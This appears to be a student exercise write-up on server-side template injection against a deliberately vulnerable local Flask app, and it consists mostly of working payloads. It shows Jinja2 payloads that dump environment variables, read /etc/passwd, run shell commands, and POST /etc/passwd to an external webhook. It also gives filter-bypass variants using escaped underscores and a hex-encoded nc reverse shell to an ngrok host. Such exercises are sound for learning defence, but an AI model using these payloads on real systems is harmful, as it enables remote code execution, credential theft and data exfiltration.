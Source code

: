Q: Give unique ssti payloads for the given cases while following these conditions:
 Re-write everything above to work against this blacklist = [    "import",    "open",    "module",    "write",    "load",    "read",    "eval",    "exec",    "system",    "os",    "_",    #",    ',    "]

```
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route("/")
def home():
    if request.args.get("c"):
        return render_template_string(request.args.get("c"))
    else:
        return "Hello, send someting inside the param 'c'!"


if __name__ == "__main__":
    app.run()
```

- ## Return the index of urllib in subclasses()
  
```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here

```http://127.0.0.1:5000/?c={{().__class__.__base__}}``` : ```<class 'object'>```

```http://127.0.0.1:5000/?c={{().__class__.__base__.__subclasses__()}}``` : ```[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>``` : returns all the subclasses for that object<br>

Now to get the index at which the urllib is present, we can copy the list and iterate through it or to directly run it in the browser we can use a for loop:
```
{% set subclasses = ().__class__.__base__.__subclasses__() %}
{% for i in range(subclasses|length) %}
  {% if 'urllib' in subclasses[i].__module__ %}
    {{ i }}
  {% endif %}
{% endfor %}
```
If this is our payload, then the for loop iterates through the subclasses list and prints the index wherever it finds urllib mentioned
url encoding the block we get the payload as: 
PAYLOAD:
```
%7B%25%20set%20subclasses%20%3D%20().__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20for%20i%20in%20range(subclasses%7Clength)%20%25%7D%0A%20%20%7B%25%20if%20'urllib'%20in%20subclasses%5Bi%5D.__module__%20%25%7D%0A%20%20%20%20%7B%7B%20i%20%7D%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

![image](https://github.com/poorvi1910/Web/assets/146640913/433ab890-0a54-4476-a97c-725822933382)

FOR BLACKLIST: 
```
http://127.0.0.1:5000/?c={{%20(dict.mro()[-1]|attr(%22\x5f\x5fsubclasses\x5f\x5f%22))()%20}}
```

- ##  Get name of current python flask script
Didnt get the name of the exact script but got the directory:
```
http://127.0.0.1:5000/?c={{%27%27.__class__.mro()[1].__subclasses__()[396](%27pwd%27,shell=True,stdout=-1).communicate()[0].strip()}}
```

- ## Get all the current envvars
```http://127.0.0.1:5000/?c={{config}}```: ```<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None,```
```http://127.0.0.1:5000/?c={{config.__class__}}``` : ```<class 'flask.config.Config'>```
```http://127.0.0.1:5000/?c={{config.__class__.from_envvar}}```: ```<function Config.from_envvar at 0x7facac89bf60>```
```http://127.0.0.1:5000/?c={{config.__class__.from_envvar[%22__globals__%22]}}```: ```{'__name__': 'flask.config', '__doc__': None, '__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7facac8a3190>, ...```

PAYLOAD:
```
http://127.0.0.1:5000/?c={{config.__class__.from_envvar[%22__globals__%22][%22__builtins__%22][%22__import__%22](%22os%22).environ}}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/de0b5534-d6a5-41aa-9c42-c4d4493f7a61)

BLACKLIST:
```
http://127.0.0.1:5000/?c={{config.from_envvar[%27\x5f\x5fglobals\x5f\x5f%27][%27\x5f\x5fbuiltins\x5f\x5f%27][%27\x5f\x5fimport\x5f\x5f%27](%27os%27).environ}}
```

- ##  Read a local file

```http://127.0.0.1:5000/?c={{%20request.__class__}}``` : ```<class 'flask.wrappers.Request'>```

```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data}}``` : ```<function Request._load_form_data at 0x7facac724680>```

```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__}}``` : ```{'__name__': 'flask.wrappers', '__doc__': None, '__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7facac720f90>...```

```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__.__builtins__}}``` : ```{'__name__': 'builtins', '__doc__': "Built-in functions, types, exceptions, and other objects.\n\nThis module provides direct access to all 'built-in'\nidentifiers of Python...```

PAYLOAD:
```
http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__.__builtins__.open(%22/etc/passwd%22).read()%20}}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/dba77ed3-b558-41bc-8740-12d3d668d256)


- ##  Run a command

```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here

```http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568]}}``` : ```<class 'subprocess.Popen'>``` : selecting the popen subprocess

```http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%20try.py%27,%20shell=True,%20stdout=-1).communicate()}}``` :  running cat command on a python file to read it

PAYLOAD:
```
http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%20try.py%27,%20shell=True,%20stdout=-1).communicate()}}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/a516db8b-213f-4e58-8650-585cac3a95de)

- ##  Send the contents of etc pass to  awebhook

Sending post request: ```http://127.0.0.1:5000/?c={{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]('requests')['post']['__call__']```

To read file : ```request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/passwd").read()```

Final result : ```<Response [200]>```

PAYLOAD:
```
http://127.0.0.1:5000/?c={{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]('requests')['post']['__call__']('https://webhook-test.com/862d0fdb235354934d78409cb297c53c', data={'file': request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/passwd").read()}) }}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/65bde4dc-928b-423c-9fc8-48ca1d5ecbe1)



- ##  Create a reverse shell, save your work and run the command yes on the rev shell

tried 
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x38\x2e\x74\x63\x70\x2e\x6e\x67\x72\x6f\x6b\x2e\x69\x6f\x20\x31\x35\x37\x32\x33\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```
did not get an output on terminal though
